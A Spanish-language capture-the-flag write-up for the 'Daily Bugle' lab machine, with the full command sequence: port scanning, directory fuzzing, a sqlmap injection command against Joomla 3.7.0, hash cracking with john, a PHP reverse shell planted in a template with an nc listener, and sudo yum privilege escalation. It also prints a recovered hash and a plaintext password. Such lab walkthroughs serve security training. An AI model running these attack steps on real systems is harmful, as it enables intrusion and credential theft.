

# Daily Bugle

## Scanning

```bash
sudo nmap -sS -p- --min-rate 4000 -vvv --open  10.10.116.241 -oG allports
nmap -sC -sV -p 22,80,3306 10.10.116.241 -oN targeted
```

## 80

```bash
wfuzz -c --hc 404,403 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u http://10.10.116.241/FUZZ -t 200
```


Tenemos un panel de administracion en `http://10.10.116.241/administrator`.

Ahora que sabemmos que es un cms de joomla podemos averiguar su version entrando a `http://10.10.116.241/administrator/manifests/files/joomla.xml`.

```bash
searchsploit joomla 3.7.0
searchsploit -m php/webapps/42033.txt
```


Usaremos este exploit para no usar sqlmap `https://github.com/stefanlucas/Exploit-Joomla`

```bash
python2 joomblah.py http://10.10.116.241/
```


Obtenemos un hash `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`

### --- OPCIONAL START ---

Si se quiere hacer con sqlmap seria usando el comando que nos da el mismo exploit de searchsploit pero algo mas especifico sería con el comando

```bash
sqlmap -u "http://10.10.116.241/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T #__users -C name,username,password --dump -p 'list[fullordering]'
```


### --- OPCIONAL END ---

podemos identificarlo guardando en un archivo y usando el comando `hashid hash`


Crackeamos la contraseña usando john

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john hash --show
```


## Subir una reverse shell

Para ello vamos a entrar con las credenciales que tenemos ahora y entraremos a extensions -> templates -> templates, luego seleccionamos algun template. Ahora editaremos el error.php con una shell reversa que tengamos en parrot, se puede copiar una con 

```bash
cp /usr/share/laudanum/wordpress/templates/php-reverse-shell.php .
```

Lo editamos con nuestra ip, seleccionamos un puerto por ejemplo 1234 y modificamos para que ejecute bash en vez de sh. Luego nos ponemos a escuchar con netcat `nc -lvp 1234`.

Para poder entrar a la página de error debe entrar a `http://10.10.116.241/templates/beez3/error.php`


## FULL TTY

```bash
script /dev/null -c bash
# ctrl + z
stty -a # anotar filas y columnas
stty raw -echo
fg # esto no se mostrará en la terminal pero si podrás escribir
reset
export TERM=xterm
export SHELL=bash
stty rows 37 columns 96 # La cantidad que te haya salido con stty -a
```


Ahora vemos en /var/www/html/configuration.php encontramos una clave `nv5uz9r3ZEDzVjNu`


Habrá que probar con que le da esa contraseña. En /home/ encontramos que existe el usuario jjameson, así que probamos la contraseña cambiando de usuario con `su jjameson` con eso sacamos la flag de user.txt

Encontramos que con `sudo -l` nos muestra que puede usar yum sin la contraseña de root


Buscamos si se puede escalar privilegios en la pagina de gtfobins [https://gtfobins.github.io/gtfobins/](https://gtfobins.github.io/gtfobins/)



Nos interesa el segundo que crea una shell interactiva con root

